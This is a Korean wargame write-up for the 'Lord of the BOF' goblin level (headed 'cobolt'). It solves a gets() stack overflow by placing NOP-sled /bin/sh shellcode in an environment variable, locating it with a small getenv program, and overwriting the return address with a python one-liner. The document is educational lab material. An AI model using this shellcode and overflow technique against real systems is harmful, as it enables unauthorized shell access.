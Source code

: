 ============================================================================================================
[lob] cobolt
============================================================================================================


.. uml::
    
    @startuml

    start

    :Source Analysis;

    :Memory Structure;

    :Segmentation fault;

    :환경 변수 쉘코드 등록;

    :환경 변수 주소값 확인;

    :RET 주소를 환경 변수 주소로 변경하여 공격 진행;
    
    stop

    @enduml

|

Source Analysis
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
    */

    int main()
    {
        char buffer[16];
        gets(buffer);
        printf("%s\n", buffer);
    }


|

Memory Structure
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 됩니다.

.. code-block:: console

    ===============
    LOW     
    ---------------
    Buffer  (16byte) <- gets
    SFP     (4byte)
    RET     (4byte)
    ---------------
    HIGH    
    ===============

|

Segmentation fault
============================================================================================================

gets로 인해 입력한 값이 버퍼보다 클 경우 오버플로우가 발생됩니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    $ ./goblin
    aaaaaaaaaaaaaaaa

    aaaaaaaaaaaaaaaa

    $ ./goblin
    aaaaaaaaaaaaaaaaaaaa

    aaaaaaaaaaaaaaaaaaaa
    Segmentation fault

|

exploit
============================================================================================================

환경 변수 쉘코드 등록
------------------------------------------------------------------------------------------------------------

환경 변수에 쉘코드를 등록해두고, 입력값 마지막 리턴 주소를 환경 변수 주소로 변경하여 해당 쉘코드를 실행하도록 합니다.

.. code-block:: console

    $ export shellcode=`python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

|

환경 변수 주소값 확인
------------------------------------------------------------------------------------------------------------

다음과 같이 소스코드를 작성하여 shellcode 환경 변수에 대한 주소 값을 획득합니다.

.. code-block:: c

    #include <stdio.h>
    int main(int argc, char **argv)
    {
            char *addr;
            addr = getenv(argv[1]);
            printf("address %p\n", addr);
            return 0;
    }

.. code-block:: console

    $ gcc -o get get.c

    get.c: In function `main':
    get.c:6: warning: assignment makes pointer from integer without a cast

    $ ./get shellcode

    address 0xbfffff02

|

RET 주소를 환경 변수 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ===============
    LOW     
    ---------------
    Buffer  (16byte) <- "\x90"*16
    SFP     (4byte)  <- "\x90"*4
    RET     (4byte)  <- shellcode 환경 변수 주소
    ---------------
    HIGH    
    ===============

오버플로우시 RET 주소를 환경 변수 주소로 변경하여 해당 쉘코드가 실행되도록 합니다. gets의 경우 프로그램 실행 이후 값이 입력되어야 하기 때문에 다음 형식으로 변수를 입력합니다.

.. code-block:: console

    $ (python -c 'print "a"*20+"\x01\xff\xff\xbf"';cat) |./goblin
    aaaaaaaaaaaaaaaaaaaa▒▒▒

    whoami
    goblin
    my-pass
    euid = 503
    hackers proof
